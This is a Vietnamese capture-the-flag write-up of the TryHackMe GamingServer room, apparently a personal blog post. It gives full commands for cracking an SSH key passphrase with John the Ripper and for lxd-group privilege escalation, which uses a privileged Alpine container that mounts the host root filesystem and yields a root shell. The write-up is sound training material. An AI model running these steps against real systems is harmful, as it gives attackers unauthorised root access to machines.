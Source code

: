 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - GamingServer"
date: "2021-11-17"
tags: [
  "tryhackme",
  "web",
  "linux",
  "ssh",
  "lxd",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2021-11-17-THM-GamingServer/1.webp)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - GamingServer](https://tryhackme.com/room/gamingserver)

## Reconnaissance

Vẫn như thông thường, việc đầu tiên là quét cổng.

```py
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Chỉ có 2 port nên tôi sẽ bắt đầu với web server. Có vẻ đây là trang web của 1 tựa game, tôi thử check qua các path đơn giản thì tôi tìm được */robots.txt* và bên trong đó là */uploads*. 

![uploads](/assets/img/2021-11-17-THM-GamingServer/2.webp)

Tôi có 1 file dict là 1 list các từ thì có thể sẽ được dùng làm wordlist để bruteforce, 1 file txt và 1 bức ảnh. Cũng không có gì đặc biệt ở đây. Thử dùng [dirsearch](https://github.com/maurosoria/dirsearch) để check xem còn path nào nữa không, tôi tìm được */secret/*. Trong này có 1 file rsa key. Tôi có thể dùng key này để login ssh chăng. Nhưng hiện tại tôi chưa có username nào. 

Loanh quanh web 1 lúc thì tôi đã tìm được 1 cái tên trong source web. 

`<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->`

Tuy nhiên, khi thử login ssh tôi được yêu cầu phải có passphrase. Vì vậy tôi sẽ dùng __John-the-Ripper__ để crack passphrase từ key trên.

## SSH

```py
┌──(neo㉿kali)-[~]
└─$ ssh2john key > id_rsa.hash                                                                   
┌──(neo㉿kali)-[~]
└─$ john --wordlist=dict.lst id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******          (key)     
1g 0:00:00:00 DONE (2022-08-04 22:54) 5.000g/s 1115p/s 1115c/s 1115C/s 2003
```

Login ssh và tôi có __user flag__

```py
john@exploitable:~$ ls
user.txt
```

## Privilege escalation

```py
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Tôi để ý user John nằm trong group `lxd`, đây cũng là 1 exploit khá hay nhưng trước hết tôi sẽ thử các exploit phổ biến trước, nếu không thể thì tôi sẽ quay lại `lxd`. Tuy nhiên sau 1 lúc loay hoay với `sudo -l` hay tìm SUID đều không có kết quả, tôi sẽ quay lại `lxd`. 

`lxd` về bản chất thì tương tự như Docker tuy nhiên nó có thể chứa được cả hệ điều hành trong 1 container. Và với `lxd` tôi sẽ làm theo hướng dẫn ở [đây](https://www.hackingarticles.in/lxd-privilege-escalation/)

Đầu tiên tải build-alpine:

```py
┌──(neo㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2022-08-05 03:03:48--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8060 (7.9K) [text/plain]
Saving to: ‘build-alpine’

build-alpine                                    100%[====================================================================================================>]   7.87K  --.-KB/s    in 0.001s  

2022-08-05 03:03:48 (6.13 MB/s) - ‘build-alpine’ saved [8060/8060]
```

Sau đó build container:

```py
┌──(root㉿kali)-[/home/neo]
└─# ./build-alpine 
Determining the latest release... v3.16
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.16/main/x86_64
Downloading apk-tools-static-2.12.9-r3.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.4-r1.apk
...
```

Sau khi build xong thì tôi sẽ có được 1 container như thế này:

```py
┌──(root㉿kali)-[/home/neo]
└─# ll
total 4228
-rw-r--r-- 1 root root 3203668 Aug  5 03:07 alpine-v3.16-x86_64-20220805_0307.tar.gz
```

Việc tiếp theo là tạo http server bằng python để upload nó lên remote machine:

```py
john@exploitable:~$ wget http://10.18.3.74:9000/alpine-v3.16-x86_64-20220805_0307.tar.gz
--2022-08-05 07:10:52--  http://10.18.3.74:9000/alpine-v3.16-x86_64-20220805_0307.tar.gz
Connecting to 10.18.3.74:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3203668 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.16-x86_64-20220805_0307.tar.gz’

alpine-v3.16-x86_64-20220805_0307.tar.gz        100%[====================================================================================================>]   3.05M   614KB/s    in 5.5s    

2022-08-05 07:10:58 (571 KB/s) - ‘alpine-v3.16-x86_64-20220805_0307.tar.gz’ saved [3203668/3203668]
```

Sau đó thì thêm image vào lxd và thử kiểm tra xem lxd đã nhận image chưa:

```py
john@exploitable:/var/tmp$ lxc image import alpine-v3.16-x86_64-20220805_0307.tar.gz --alias myimage
Image imported with fingerprint: 963724185ee69c3baf96c05771e0e4e0fdcbb4b75bed127ab48877a7533ac0b6
john@exploitable:/var/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 963724185ee6 | no     | alpine v3.16 (20220805_03:07) | x86_64 | 3.06MB | Aug 5, 2022 at 7:45am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
```

Sau đó làm theo các câu lệnh như exploit bên trên:

```py
john@exploitable:/var/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/var/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/var/tmp$ lxc start ignite
john@exploitable:/var/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```

## Tổng kết

Qua bài này, tôi biết thêm về `lxd` container và cách leo thang đặc quyền với nó. Và nó cũng rất hữu ích để tạo container cho cả hệ điều hành và tôi có thể đẩy nó lên bất cứ đâu mà không phải cài lại cả hệ điều hành.



